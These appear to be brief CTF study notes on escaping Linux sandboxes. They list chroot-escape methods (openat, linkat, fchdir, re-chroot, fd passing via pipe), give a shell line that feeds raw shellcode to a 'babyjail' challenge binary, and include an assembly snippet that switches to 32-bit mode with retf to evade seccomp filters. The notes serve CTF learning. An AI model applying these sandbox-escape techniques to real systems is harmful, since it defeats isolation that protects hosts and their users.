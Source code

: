 pwnable notes

# escape chroot
https://github.com/earthquake/chw00t
```console
- wrong setup (chroot without chdir)
    -> open("../../flag")

- can open a directory befor chroot + chdir
    -> 1. use openat then read target file
    -> 2. use linkat
    -> 3. use fchdir
    -> 4. re chroot again to escapse the old chroot
    -> 5. if no opened file? let open once then pass through pipe (check pipe trick)
```

# pipe trick
you can open a file and pass to the fd you want like this
```console
/challenge/babyjail_level8 0 < shellcode-raw 3</
```

# escape seccomp
- exchange from amd64 into i386 to use difference number of 
```console
SYS_No of syscalls
    xor rsp, rsp
    mov esp, 0x1337800
    mov DWORD PTR [esp+4], 0x23
    mov DWORD PTR [esp], 0x1337080
    retf
```